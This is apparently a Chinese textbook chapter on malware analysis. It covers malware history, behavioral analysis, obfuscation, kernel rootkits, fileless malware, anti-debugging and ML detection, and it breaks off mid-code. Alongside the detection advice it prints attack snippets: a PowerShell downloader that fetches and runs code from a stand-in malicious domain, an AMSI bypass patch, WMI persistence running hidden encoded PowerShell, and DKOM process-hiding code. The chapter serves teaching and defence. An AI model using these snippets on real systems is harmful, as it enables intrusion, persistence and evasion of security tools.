





# 第24章 恶意软件分析 - 深度拓展

## 一、恶意软件演化理论与历史脉络

### 1.1 四代恶意软件的演化模型

恶意软件的发展遵循"军备竞赛"模型——防御技术每次突破，都会催生攻击技术的迭代升级。理解这个演化模型，不是为了回顾历史，而是为了预判未来：下一代恶意软件会向哪个方向演进，取决于当前防御体系的薄弱环节在哪里。



**第一代（1980s-1990s）—— 病毒与蠕虫的时代**

这一代恶意软件的技术本质是"复制"。1986年的Brain病毒是第一个IBM PC兼容机病毒，它感染软盘的引导扇区，通过软盘交换在计算机之间传播。1988年Morris蠕虫通过Unix的sendmail、fingerd和rsh漏洞在网络上传播，感染了当时互联网上约10%的计算机（约6000台），造成了约1000万到1亿美元的经济损失。这一代的技术特征是：依赖文件感染、引导扇区感染或宏感染，传播方式依赖物理介质或早期网络协议，载荷通常表现为破坏性操作（删除文件、格式化磁盘）。

**第二代（2000s）—— 木马与后门的兴起**

随着互联网的普及，恶意软件从"自我复制"转向"隐蔽驻留"。1999年的SubSeven和2001年的BO2K（Back Orifice 2000）开启了远程控制木马（RAT）的时代。技术特征包括：基于客户端-服务器架构的C2通信、利用电子邮件和网页下载传播、开始具备键盘记录和屏幕截取能力。这一代的标志性事件是2003年的SQL Slammer蠕虫，它利用SQL Server 2000的缓冲区溢出漏洞，以37秒/台的速度在全球传播，感染了7.5万台服务器，造成全球互联网流量激增。

**第三代（2010s）—— APT高级持续性威胁**

2010年Stuxnet（震网病毒）的发现标志着恶意软件进入新纪元。Stuxnet是第一个被证实用于攻击工业控制系统的恶意软件，它利用4个零日漏洞、感染USB设备、伪装西门子数字签名、最终破坏伊朗核设施的离心机。这一代的技术特征是：多阶段攻击链（鱼叉式钓鱼→初始感染→横向移动→持久化→数据窃取/破坏）、高度定制化、反分析能力（反调试、反虚拟机、反沙箱）、使用合法工具进行攻击（Living off the Land）。同年发现的Duqu是第一个被证实的"信息窃取型"APT恶意软件，专门收集工业控制系统的情报数据。

**第四代（2020s）—— AI增强与供应链攻击**

2020年SolarWinds供应链攻击事件展示了第四代恶意软件的破坏力：攻击者入侵SolarWinds的代码仓库，在Orion软件更新中植入后门，影响了18000个组织，包括美国财政部、国土安全部和五角大楼。这一代的技术特征包括：利用AI技术辅助漏洞发现和代码生成、通过供应链投毒实现大规模感染、零日漏洞利用的自动化、勒索软件即服务（RaaS）的商业模式。2021年Colonial Pipeline被DarkSide勒索软件攻击，导致美国东海岸燃油供应中断，最终支付了440万美元赎金。

### 1.2 演化驱动力的深层分析

恶意软件的演化不是随机的，而是由四股力量共同驱动。理解这些驱动力，可以帮助分析师预判威胁趋势。

**技术驱动力：** 新技术出现时，防御体系尚未完善，攻击者利用这个时间窗口发动攻击。2017年WannaCry利用永恒之蓝（EternalBlue）漏洞，在Windows SMBv1协议的漏洞被公开后迅速传播，全球感染超过23万台计算机，造成80亿美元损失。技术驱动的规律是：每当出现新的技术范式（云计算、物联网、AI），恶意软件就会在1-2年内跟进。

**经济驱动力：** 网络犯罪的商业模式已高度成熟。2021年全球勒索软件支付总额达到约8亿美元（Chainalysis数据），而2022年下降至4.5亿美元，这反映出防御意识的提升。勒索软件即服务（RaaS）模式使得不具备技术能力的犯罪分子也能发动攻击，Conti勒索软件组织在2022年的年收入估计达到1.8亿美元。

**地缘政治驱动力：** 国家级APT组织的活动遵循地缘政治紧张关系。2022年俄乌冲突期间，针对乌克兰的恶意软件攻击数量增加了200%以上，WhisperGate、HermeticWiper等破坏性恶意软件被用于"擦除"乌克兰政府机构的数据。APT28（俄罗斯）、Lazarus（朝鲜）、APT41（中国）等组织的活动与各自国家的地缘政治目标高度一致。

**防御驱动反作用力：** 安全技术的进步迫使攻击者创新。2016年PowerShell成为恶意软件分析的焦点，随着AMSI（反恶意软件扫描接口）的引入，攻击者转向利用反射式DLL加载和.NET内存执行。2020年后，EDR（端点检测与响应）产品的普及，使得攻击者转向"Living off the Land"技术，利用合法系统工具（certutil、mshta、regsvr32）来绕过检测。

## 二、高级行为分析理论与实践

### 2.1 行为分析的核心假设与框架

行为分析的核心假设是：**恶意软件必须执行某些行为才能实现其目的，而这些行为会留下可观察的痕迹**。与代码层面的混淆技术相比，行为层面的异常更难完全隐藏——因为恶意软件必须在操作系统上执行操作，而操作系统提供了有限的API接口。

**行为分类框架与具体映射：**

| 行为类别 | 典型API调用 | 注册表路径 | 检测方法 |
|---------|------------|-----------|---------|
| 文件释放 | CreateFile, WriteFile, MoveFile | — | ProcMon文件创建事件 |
| 注册表持久化 | RegCreateKeyEx, RegSetValueEx | HKLM\Software\Microsoft\Windows\CurrentVersion\Run | 注册表监控、RegRipper |
| 服务创建 | CreateService, StartService | HKLM\SYSTEM\CurrentControlSet\Services | 服务枚举、sc query |
| 计划任务 | ITaskService COM接口 | HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache | schtasks /query |
| DLL劫持 | LoadLibrary, LoadLibraryEx | — | DLL搜索顺序分析 |
| 网络通信 | connect, send, recv, HttpSendRequest | — | 流量捕获、DPI |
| 进程注入 | VirtualAllocEx, WriteProcessMemory, CreateRemoteThread | — | 进程内存扫描、API钩子 |
| 键盘记录 | SetWindowsHookEx, GetAsyncKeyState | — | 钩子链分析 |

**行为序列分析的实现方法：** 将恶意软件行为建模为有向图，节点是系统调用或API调用，边是执行顺序。通过比较行为图的相似度，可以实现恶意软件家族的自动分类。例如，所有Emotet变种都会执行以下行为序列：

```text
创建临时目录 → 写入DLL文件 → 执行regsvr32加载DLL → 
访问C2服务器 → 下载第二个阶段载荷 → 创建计划任务持久化
```

这个行为序列是Emotet的"指纹"，即使具体的文件名、URL和加密密钥每次都不同。

### 2.2 行为序列的状态机建模



**状态机建模的分析价值：** 将恶意软件行为建模为状态机后，分析师可以识别关键的状态转换条件。例如，许多高级恶意软件在"环境检测"状态会等待特定条件（如鼠标移动、特定进程存在、网络连通性）才会转换到"恶意载荷释放"状态。理解这些条件是分析的关键——沙箱环境通常缺乏真实的用户交互，因此很多恶意软件会停留在"良性行为伪装"状态，永远不展现真正的恶意行为。

## 三、代码混淆与反混淆技术

### 3.1 控制流混淆技术详解

控制流混淆的目的是使反汇编工具和分析人员无法准确理解程序的执行逻辑。以下是最常用的三种技术及其具体实现。

**不透明谓词（Opaque Predicates）**

不透明谓词是值恒为真或恒为假的条件表达式，但编译器和分析工具无法静态推导出其结果。常见实现：

```c
// 不透明谓词示例 - 值永远为真
// x*(x+1) 对任意整数x都是偶数
if ((x * (x + 1)) % 2 == 0) {
    // 真实代码路径 - 永远执行
    ExecuteMaliciousCode();
} else {
    // 死代码 - 永远不执行，但分析工具不知道
    GenerateFakeBehavior();
}

// 基于数学恒等式的不透明谓词
// (y*y + y) % 2 == 0 对所有整数y成立
// 但反编译器会将其识别为普通的条件分支
```

**控制流平坦化（Control Flow Flattening）**

将程序的原始控制流图（CFG）转换为一个平坦的switch-case结构，所有基本块都位于同一个层级，通过一个分发变量决定执行顺序。这是OLLVM（Obfuscator-LLVM）的核心技术之一。

```mermaid
graph LR
    subgraph 原始控制流
        A[函数入口] --> B[基本块1]
        B --> C{条件判断}
        C -->|真| D[基本块2]
        C -->|假| E[基本块3]
        D --> F[基本块4]
        E --> F
    end
    
    subgraph 平坦化后
        A2[入口] --> Dispatcher
        Dispatcher --> |state=1| B2[块1]
        Dispatcher --> |state=2| D2[块2]
        Dispatcher --> |state=3| E2[块3]
        Dispatcher --> |state=4| F2[块4]
        B2 --> Dispatcher
        D2 --> Dispatcher
        E2 --> Dispatcher
        F2 --> [*]
    end
```

**字符串加密：** 恶意软件中的敏感字符串（C2域名、注册表路径、API名称）通常在编译时加密，运行时解密。常见的实现是在字符串的每个字节上应用XOR、RC4或AES加密，运行时通过一个解密函数还原。

```c
// 字符串加密示例 - 简单的XOR加密
char encrypted[] = {0x45, 0x23, 0x78, 0x12}; // 加密后的字符串
char key[] = {0x20, 0x40, 0x10, 0x30};       // XOR密钥
char decrypted[5];
for (int i = 0; i < 4; i++) {
    decrypted[i] = encrypted[i] ^ key[i];     // 解密
}
decrypted[4] = '\0';
// decrypted现在包含原始字符串
```

### 3.2 反混淆技术的实战应用

**符号执行：** 符号执行将程序变量视为符号而非具体值，通过数学约束求解器（如Z3）探索所有可能的执行路径。对于包含不透明谓词的代码，符号执行可以推导出谓词的恒定值，从而消除死代码。工具如angr和Triton支持对二进制程序进行符号执行分析。

```python
# 使用angr进行符号执行分析
import angr
import claripy

# 加载二进制程序
proj = angr.Project('./malware.exe', auto_load_libs=False)

# 创建初始状态，从main函数开始
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)

# 探索所有执行路径，避开反分析代码
simgr.explore(
    find=lambda s: b"C2_CONNECT" in s.posix.dumps(1),  # 找到C2通信代码
    avoid=lambda s: b"ANALYSIS_DETECTED" in s.posix.dumps(1)  # 避开反分析代码
)

if simgr.found:
    found_state = simgr.found[0]
    print("找到C2通信路径")
    print(f"寄存器状态: {found_state.regs.rax}")
    # 提取符号约束以确定触发条件
    print(f"路径约束: {found_state.solver.constraints}")
```

**污点分析：** 污点分析标记外部输入数据为"污染源"，跟踪这些数据在程序中的传播路径。当污染数据影响到敏感操作（如内存分配、系统调用）时，触发警报。这在分析键盘记录器和数据窃取器时特别有效——分析师可以追踪键盘输入数据如何被加密并外传。

## 四、内核级恶意软件深度分析

### 4.1 Rootkit技术原理

Rootkit是恶意软件分析中最具挑战性的目标，因为它运行在操作系统内核层，拥有修改操作系统自身行为的能力。现代Rootkit已经从简单的"隐藏"工具演变为完整的攻击基础设施。

**DKOM（Direct Kernel Object Manipulation）—— 进程隐藏的核心技术**

Windows内核使用双向链表维护进程列表（EPROCESS结构中的ActiveProcessLinks字段）。DKOM技术通过修改这个链表指针，将目标进程从链表中摘除，使任务管理器和大部分用户态工具无法看到该进程。但进程仍在运行，网络连接和文件句柄仍然存在。

```cpp
// DKOM进程隐藏原理（伪代码）
// Windows EPROCESS结构中的ActiveProcessLinks
typedef struct _EPROCESS {
    // ... 其他字段
    LIST_ENTRY ActiveProcessLinks;  // 偏移量随Windows版本变化
    // ... 其他字段
} EPROCESS;

// 隐藏进程的操作
void HideProcess(PEPROCESS targetProcess) {
    PLIST_ENTRY current = &targetProcess->ActiveProcessLinks;
    
    // 修改前一个进程的Flink指向后一个进程
    current->Blink->Flink = current->Flink;
    // 修改后一个进程的Blink指向前一个进程
    current->Flink->Blink = current->Blink;
    
    // 自引用，防止后续访问导致蓝屏
    current->Flink = current;
    current->Blink = current;
}
```

**检测DKOM的方法：** DKOM只修改了进程链表，但没有修改内核的其他数据结构。通过对比进程链表和内核调度器的线程列表（PsActiveProcessHead与KiDispatcherReadyListHead），可以发现被隐藏的进程。Volatility的psxview插件通过同时检查多个进程列表（包括句柄表、线程列表、会话列表）来检测DKOM隐藏的进程。

### 4.2 内核Rootkit分析工具链

| 工具 | 用途 | 分析方式 | 优势 |
|------|------|---------|------|
| WinDbg | 内核调试 | 源码级/汇编级调试 | 实时分析，可断点 |
| Volatility | 内存取证 | 离线分析内存转储 | 不依赖目标系统状态 |
| Rekall | 内存取证 | 离线分析内存转储 | Google维护，社区活跃 |
| GMER | Rootkit检测 | 运行时系统扫描 | 免费，直接检测Rootkit |
| Sysinternals | 运行时分析 | 实时进程/驱动/注册表监控 | 无需调试器 |
| VirtualBox VMI | 虚拟机内省 | 从Hypervisor层监控 | 对目标透明，无法被检测 |

**内核调试的实战流程：** 使用WinDbg进行内核调试需要配置双机调试（主机运行WinDbg，目标机是被调试系统）。配置步骤包括：在目标机上启用调试模式（bcdedit /debug on）、配置调试端口（串口/网络/USB）、在主机上连接WinDbg（windbg -k com:port=COM1,baud=115200）。

```text
// WinDbg常用内核分析命令
// 列举所有进程
!process 0 0

// 查看特定进程的详细信息
!process <EPROCESS地址> 1

// 检查SSDT（系统服务描述表）是否有hook
!dps nt!KeServiceDescriptorTable

// 列举所有加载的驱动模块
lm n

// 检查驱动入口点是否被修改
u <驱动入口点地址>

// 查看进程链表完整性
!list -e -x "dt nt!_EPROCESS @$extret->ActiveProcessLinks.Flink" nt!PsActiveProcessHead
```

### 4.3 SSDT Hook与IDT Hook

**SSDT Hook：** SSDT（System Service Descriptor Table）是Windows内核维护的一张表，包含所有系统服务（即Native API）的入口地址。Rootkit通过替换SSDT中的函数指针，将系统调用重定向到恶意代码。例如，替换NtQueryDirectoryFile使文件枚举不返回特定文件，替换NtCreateProcess使进程创建失败。

**IDT Hook：** IDT（Interrupt Descriptor Table）包含CPU中断处理程序的地址。Rootkit通过修改IDT中的中断处理函数，劫持硬件和软件中断。INT 1（调试中断）和INT 3（断点中断）是常见的hook目标，用于干扰调试器工作。

**IRP Hook：** 驱动程序通过IRP（I/O Request Packet）处理程序接收系统I/O请求。Rootkit可以挂接目标驱动的IRP处理程序，在请求到达原始驱动之前拦截和修改请求数据。例如，挂接文件系统驱动的IRP_MJ_READ处理程序，可以在文件读取时注入恶意代码。

## 五、无文件恶意软件深度分析

### 5.1 无文件恶意软件的威胁模型

无文件恶意软件（Fileless Malware）是恶意软件演化的重要方向——它不依赖传统的可执行文件，而是利用操作系统和合法工具（LOLBins，Living off the Land Binaries）来执行恶意代码。这种攻击方式之所以难以检测，是因为它"融入"了正常的系统操作中，传统基于文件哈希的检测方法完全失效。



### 5.2 PowerShell恶意软件实战分析

PowerShell已成为无文件恶意软件的首选平台，因为它内置在Windows系统中、功能强大、支持远程执行，并且代码在内存中执行不留下可执行文件。

**PowerShell恶意软件的典型载荷结构：**

```powershell
# 第一阶段：下载器（通常通过钓鱼邮件的宏代码触发）
$downloadUrl = "https://malicious-domain.com/payload.ps1"
$encodedPayload = (New-Object Net.WebClient).DownloadString($downloadUrl)

# 第二阶段：反射式DLL加载（将DLL直接加载到内存中，不写入磁盘）
$bytes = [System.Convert]::FromBase64String($encodedPayload)
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, @())

# 第三阶段：进程注入（将代码注入到合法进程中）
$code = @"
using System;
using System.Runtime.InteropServices;
public class Inject {
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, 
        uint dwSize, uint flAllocationType, uint flProtect);
    // ... 更多API声明
}
"@
Add-Type -TypeDefinition $code
```

**AMSI（反恶意软件扫描接口）绕过技术：**

AMSI是Windows 10引入的安全机制，它允许杀毒软件在PowerShell、VBScript、JavaScript等脚本引擎执行代码之前进行扫描。绕过AMSI是PowerShell恶意软件的关键步骤。

```powershell
# AMSI绕过技术一：补丁AmsiScanBuffer函数
# 修改AmsiScanBuffer函数的入口点，使其直接返回"未检测到威胁"
$patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)  # mov eax, 0x80070057; ret
$amsiAddr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (Get-ProcAddress amsi.dll AmsiScanBuffer), [System.Action])
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $amsiAddr, 6)

# AMSI绕过技术二：修改内存中的AMSI初始化标志
# 将AmsiInitFailed标志设置为true，使AMSI认为初始化失败
# 系统将跳过AMSI扫描，直接执行脚本内容
```

**防御对策：** 启用PowerShell脚本块日志记录（Event ID 4104）可以捕获所有执行的PowerShell代码，包括被混淆的代码。ETW（Event Tracing for Windows）的Microsoft-Windows-PowerShell/Operational通道提供详细的PowerShell活动记录。

### 5.3 WMI持久化与注册表存储

**WMI事件订阅持久化：** WMI（Windows Management Instrumentation）允许通过事件订阅机制在特定事件发生时自动执行代码。攻击者可以创建WMI事件订阅，使恶意代码在系统启动、用户登录或特定事件发生时自动运行。

```powershell
# WMI事件订阅持久化示例
$filterName = "SystemFilter"
$consumerName = "SystemConsumer"

# 创建事件过滤器：系统启动时触发
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = $filterName
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 120 AND TargetInstance.SystemUpTime < 180"
}

# 创建事件消费者：执行PowerShell命令
$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = $consumerName
    CommandLineTemplate = "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand <base64编码的恶意命令>"
}

# 绑定过滤器和消费者
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter
    Consumer = $consumer
}
```

**注册表存储恶意代码：** 攻击者将Base64编码的恶意代码存储在注册表的任意键值中，然后使用PowerShell或其他脚本引擎从注册表读取并执行。这种方法的优势是不创建任何文件，且注册表中存储的数据量理论上没有限制。

## 六、反分析技术的深度解析

### 6.1 反调试技术与绕过方法

现代恶意软件的反调试技术已经从简单的API检查发展为多层次、多维度的检测系统。以下是最常见的反调试技术及其具体实现和绕过方法。

**技术一：IsDebuggerPresent API检测**

这是最简单的反调试技术，检查当前进程是否被调试。绕过方法是使用调试器的API钩子（如x64dbg的ScyllaHide插件）或直接修改PEB（Process Environment Block）中的BeingDebugged标志。

**技术二：NtQueryInformationProcess深入检测**

恶意软件使用NtQueryInformationProcess查询ProcessDebugPort（参数7）、ProcessDebugObjectHandle（参数0x1E）和ProcessDebugFlags（参数0x1F）。如果调试器存在，这些参数会返回特定值。

```cpp
// 反调试代码示例：NtQueryInformationProcess检测
typedef NTSTATUS (WINAPI *pNtQueryInformationProcess)(
    HANDLE, UINT, PVOID, ULONG, PULONG);

pNtQueryInformationProcess NtQIP = (pNtQueryInformationProcess)
    GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQueryInformationProcess");

// 方法1：检查ProcessDebugPort
DWORD debugPort = 0;
NtQIP(GetCurrentProcess(), 7, &debugPort, sizeof(debugPort), NULL);
if (debugPort != 0) {
    // 检测到调试器
    ExitProcess(0);
}

// 方法2：检查ProcessDebugObjectHandle
HANDLE debugObject = NULL;
NTSTATUS status = NtQIP(GetCurrentProcess(), 0x1E, &debugObject, sizeof(debugObject), NULL);
if (status == 0) {  // STATUS_SUCCESS表示调试器存在
    ExitProcess(0);
}

// 方法3：检查ProcessDebugFlags（值为0表示调试器存在）
DWORD debugFlags = 1;
NtQIP(GetCurrentProcess(), 0x1F, &debugFlags, sizeof(debugFlags), NULL);
if (debugFlags == 0) {
    ExitProcess(0);
}
```

**技术三：时间检测（rdtsc指令）**

rdtsc（Read Time-Stamp Counter）读取CPU的时间戳计数器，精度可达纳秒级。恶意软件在代码执行前后分别调用rdtsc，计算时间差。如果时间差超过阈值（通常10-100ms），说明有调试器单步执行或断点暂停。

```cpp
// 反调试代码示例：rdtsc时间检测
unsigned long long start, end;
__asm {
    rdtsc
    mov dword ptr [start], eax
    mov dword ptr [start+4], edx
}

// 敏感操作代码
MaliciousOperation();

__asm {
    rdtsc
    mov dword ptr [end], eax
    mov dword ptr [end+4], edx
}

// 如果时间差超过阈值，检测到调试器
if ((end - start) > 0x10000000) {
    // 反调试触发：进入死循环或退出
    while(1) {}
}
```

**绕过时间检测的方法：** 使用硬件虚拟化技术（如Intel VT-x）可以控制时间戳计数器的返回值。或者使用调试器的时间伪造功能（如x64dbg的TitanHide插件）修改rdtsc指令的返回值。

**技术四：异常处理链检查**

Windows使用SEH（Structured Exception Handling）机制处理异常。调试器通常会修改异常处理链，恶意软件通过检查SEH链的完整性来检测调试器。

```cpp
// 反调试代码示例：SEH链检测
__try {
    __asm {
        xor eax, eax           // eax = 0
        mov eax, [eax]         // 触发访问违例（读取地址0）
    }
} __except(EXCEPTION_EXECUTE_HANDLER) {
    // 正常情况：异常被捕获
    // 如果被调试器中断，说明有调试器拦截了异常
}
```

### 6.2 反虚拟机与反沙箱技术

**硬件特征检测：** 虚拟机在CPU指令层面暴露了特定的标识，恶意软件可以利用这些标识判断是否运行在虚拟机中。

| 检测方法 | 虚拟机特征 | 绕过技术 |
|---------|-----------|---------|
| CPUID指令 | VMware: "VMwareVMware"，VirtualBox: "VBoxVBoxVBox" | 修改CPUID指令的返回值 |
| MAC地址前缀 | VMware: 00:0C:29:xx:xx:xx，VirtualBox: 08:00:27:xx:xx:xx | 修改虚拟机MAC地址 |
| 注册表键值 | VMware: HKLM\SOFTWARE\VMware, Inc.\VMware Tools | 删除或隐藏注册表键 |
| 进程名检测 | vmtoolsd.exe, VBoxService.exe, VBoxTray.exe | 重命名进程或使用最小化安装 |
| 文件系统检测 | C:\Program Files\VMware\，C:\Program Files\Oracle\VirtualBox\ | 安装到非标准路径 |
| 磁盘名称检测 | VMware Virtual disk SCSI Disk Device | 修改磁盘设备名称 |
| 网络适配器 | vmxnet, VirtualBox Host-Only Network | 使用桥接网络 |

**时间延迟规避：** 恶意软件在检测到沙箱环境（通常沙箱会在有限时间内分析样本）后，会等待很长时间才执行恶意行为，或者等待特定的系统事件（如鼠标移动、屏幕分辨率变化、特定应用程序运行）再触发。

```cpp
// 反沙箱代码示例：鼠标移动检测
POINT p1, p2;
GetCursorPos(&p1);
Sleep(1000);  // 等待1秒
GetCursorPos(&p2);

if (p1.x == p2.x && p1.y == p2.y) {
    // 没有鼠标移动，可能是沙箱环境
    // 进入休眠或执行良性行为
    ExitProcess(0);
}

// 时间加速检测：检查系统时间是否被加速
SYSTEMTIME st1, st2;
GetSystemTime(&st1);
Sleep(1000);  // 实际等待1秒
GetSystemTime(&st2);

// 计算时间差
if ((st2.wSecond - st1.wSecond) < 1) {
    // 系统时间可能被加速，可能是沙箱
}
```

## 七、机器学习在恶意软件检测中的应用

### 7.1 静态特征的机器学习分析

机器学习检测的核心在于**特征工程**——选择能够区分恶意软件和良性软件的特征。特征的质量决定了模型的上限。

**PE文件特征提取的实现：**

```python
import pefile
import numpy as np
from collections import Counter
import math

def extract_pe_features(file_path):
    """从PE文件提取静态特征向量"""
    pe = pefile.PE(file_path)
    features = {}
    
    # === 1. PE头部特征 ===
    features['machine'] = pe.FILE_HEADER.Machine
    features['number_of_sections'] = pe.FILE_HEADER.NumberOfSections
